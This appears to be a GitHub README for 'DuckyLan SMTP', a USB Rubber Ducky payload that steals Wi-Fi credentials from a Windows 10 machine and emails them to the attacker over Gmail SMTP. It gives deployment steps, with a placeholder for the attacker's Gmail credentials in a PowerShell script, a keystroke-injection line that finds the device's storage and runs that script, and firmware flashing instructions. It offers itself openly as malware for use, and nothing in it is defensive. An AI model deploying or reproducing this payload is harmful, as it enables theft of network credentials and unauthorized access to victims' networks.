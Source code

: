 # DuckyLan SMTP 
> Blue Cosmo

---

```
________                 __           .____                   
\______ \  __ __   ____ |  | _____.__.|    |   _____    ____  
 |    |  \|  |  \_/ ___\|  |/ <   |  ||    |   \__  \  /    \ 
 |    `   \  |  /\  \___|    < \___  ||    |___ / __ \|   |  \
/_______  /____/  \___  >__|_ \/ ____||_______ (____  /___|  /
        \/            \/     \/\/             \/    \/     \/
```

## Overview:
A USB RubberDucky payload that steals Wi-Fi credentials and sends them to the attacker via STMP.

## Resources:
- [YouTube Video](https://youtu.be/_AABY478nNE)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- [Twin-Duck firmware](https://www.youtube.com/watch?v=BzYH-BPHLpE)
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 15 of *payload.txt*, change 'W' to the name of your ducky [SD Card]
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'W'}|select name;cd $u.name;./p.ps1;exit
```
3. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
4. load, encode, and deploy!!

---

- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)

#projects #malware 
